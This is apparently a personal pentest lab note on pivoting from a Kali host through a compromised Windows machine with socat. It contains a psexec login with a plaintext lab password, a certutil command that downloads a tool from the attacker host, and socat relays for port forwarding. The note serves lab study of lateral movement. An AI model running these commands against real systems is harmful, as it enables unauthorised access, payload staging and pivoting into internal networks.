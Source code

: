 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

```bash - kali
psexec.py marvel.local/fcastle:Password1@192.168.111.138
```

```command prompt - target
cd C:\Users\fcastle\Documents
```

```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```

```command prompt - target
socatx64.exe tcp-l:8000 tcp:192.168.111.133:443 &
```


#### Local Port Forwarding
Say we wish to target local port 631
```bash - target
socat tcp-listen:9090,fork tcp:127.0.0.1:631 &
```

```bash - kali
nmap -sVC -p 9090 $TARGET
```


































































